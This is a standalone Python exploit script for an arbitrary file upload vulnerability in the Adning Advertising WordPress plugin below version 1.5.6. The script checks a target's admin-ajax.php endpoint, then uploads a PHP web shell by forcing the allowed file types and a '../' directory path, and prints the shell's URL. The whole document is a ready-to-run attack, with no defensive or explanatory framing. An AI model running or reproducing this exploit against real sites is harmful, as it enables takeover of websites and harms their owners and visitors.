 The full exploit source is shown below:
```
import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("Adning Advertising < 1.5.6 - Arbitrary File Upload")
	print("Author -> space_hen (www.lunar.sh)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text

	if ("no files found" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = '_ning_upload_image'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'files[]' : open(file_path)}
	data = {
	"allowed_file_types" : "php,jpg,jpeg",
	"upload" : json.dumps({"dir" : "../"})
	}
	print("Uploading Shell...");
	response = requests.post(uri, files=files, data=data )
	file_name = path.basename(file_path)
	if('"success":true' in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + file_name)
	else:
		print("Shell Upload Failed")
```